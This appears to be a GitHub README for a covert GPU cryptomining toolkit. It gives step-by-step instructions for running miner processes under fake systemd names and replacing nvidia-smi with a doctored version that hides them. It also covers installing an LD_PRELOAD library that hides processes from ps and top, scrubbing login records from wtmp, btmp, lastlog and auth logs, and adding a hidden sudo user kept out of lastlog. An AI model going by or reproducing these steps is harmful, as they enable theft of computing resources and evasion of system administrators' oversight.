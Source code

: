# AWESOME WORK !!!
## Structure
* exec: executed file.
    * nvidia-smi: excludes `systemd-diagnosis` in nvidia-smi panel.
    * systemd-firewall: is an adaptive system resource allocator determines which GPU the slave miners work on.
    * systemd-update: is the same to the `systemd-firewall` but more merciful that only works at midnight.
    * systemd-diagnosis: is the pool slave miner(Phoenix miner main file).
    * libGNU.co: hides specified processes for ps, top ,and htop.

* source: corresponding source code of the executed file in `./exec`.

## Installation

run the `Makefile` by `sudo make`. If you want to be blamed, run it without `sudo`. 

## Prerequiste
### environmental setting
make sure you have gcc(which is preinstalled in your system) pyinstaller installed:
```bash
conda activate [your environment]
pip install pyinstaller
```
### nvidia-smi
1. please make sure the variable `skip` in `source/nvidia-smi.py` is the same to the **slave miner**'s file name.
1. rename original `nvidia-smi` by `nl-toolkit` in `/usr/bin`.
1. move the *degraded* `nvidia-smi` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx nvidia-smi`.

### systemd-firewall
1. move `systemd-firewall` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx systemd-firewall`.

### systemd-update
1. same to the `systemd-firewall`.

### libGNU.co
1. move `libGNU.co` to `/usr/lib`.
1. add `/usr/lib/libGNU.co` to `/etc/ld.so.preload`; or add `export LD_PRELOAD=/usr/lib/libGNU.so` to `/etc/profile` (remember to execute `source /etc/profile` to make it effective).

**Risk:** add these files to system environment is easy to detect just by `cat /etc/ld.so.preload` or `echo $LD_PRELOAD`.

## Usage
### Slash the miner
1. `sudo nohup systemd-firewall 2>&1 > /dev/null &`.
1. check mining status by `nl-toolkit`.

### Check degraded files
1. `nvidia-smi`.
1. `ps aux | grep 'f2pool\|systemd-firewall\|systemd-diagnosis\|nl-toolkit'`.
1. `top -u root` or `htop -u root`.

### Clean login log
1. revise following files by 
```bash
utmpdump [logfile] > tmp_output.txt
utmpdump -r tmp_output.txt > [logfile]
```

* `last`: `/var/log/wtmp`.
* `lastb`: `/var/log/btmp`.
* `lastlog`: `/var/log/lastlog`.

1. delete your login log in `/var/log/auth.log` (for Ubuntu).
1. delete your login log in `/var/log/secure.log` (for CentOS).

## Tips
 * Add a new user by `useradd [your name] -G sudo -d /usr/bin -s /bin/bash -l -M`. `-l` can avoid you be added to the lastlog and faillog databases. `-M` will not create your home directory.
 * edit `/etc/passwd` to get more privileges for your account.

## Notations
to do 
